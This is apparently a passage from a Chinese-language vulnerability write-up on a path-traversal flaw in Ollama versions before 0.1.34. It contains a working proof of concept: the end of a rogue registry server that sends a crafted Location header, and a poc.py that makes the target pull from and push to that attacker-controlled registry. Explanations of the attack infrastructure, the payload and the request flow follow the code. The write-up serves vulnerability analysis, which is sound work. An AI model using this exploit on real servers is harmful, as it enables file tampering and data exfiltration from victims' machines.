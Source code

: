 ```python
    response.headers["Location"] = f"http://{HOST}/v2/rogue/bi0x/blobs/uploads/3647298c-9588-4dd2-9bbe-0539533d2d04?_state=eBQ2_sxwOJVy8DZMYYZ8wA8NBrJjmdINFUMM6uEZyYF7Ik5hbWUiOiJyb2d1ZS9sbGFtYTMiLCJVVUlEIjoiMzY0NzI5OGMtOTU4OC00ZGQyLTliYmUtMDUzOTUzM2QyZDA0IiwiT2Zmc2V0IjowLCJTdGFydGVkQXQiOiIyMDI0LTA2LTI1VDEzOjAxOjExLjU5MTkyMzgxMVoifQ%3D%3D"
    return ''

if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host='0.0.0.0', port=80)
```

poc.py代码如下：

```python
import requests

HOST = "192.168.47.149"
target_url = f"http://192.168.47.130:11434"

vuln_registry_url = f"{HOST}/rogue/bi0x"

pull_url = f"{target_url}/api/pull"
push_url = f"{target_url}/api/push"

requests.post(pull_url, json={"name": vuln_registry_url, "insecure": True})
requests.post(push_url, json={"name": vuln_registry_url, "insecure": True})

# see rogue server log
```

**（1）攻击基础架构**

攻击者需要两个主要组件来实施完整的攻击：

**目标服务器**：运行有漏洞版本的Ollama（<0.1.34）

**恶意服务器**：作为"rogue registry"（恶意注册表服务器），用于响应Ollama的请求

**（2）Payload的组成部分**

完整的漏洞利用payload由两部分组成：

**发送到目标Ollama的请求**：向Ollama API发送的JSON请求

**恶意服务器的响应**：包含路径遍历序列的manifest文件

**（3）攻击流程和Payload执行机制**

这种攻击的完整执行流程如下：

**初始化请求**：攻击者向Ollama的/api/pull端点发送请求，要求它从恶意服务器获取"模型"：

```json
{
  "name": "攻击者服务器IP/rogue/bi0x",
  "insecure": true
}
```
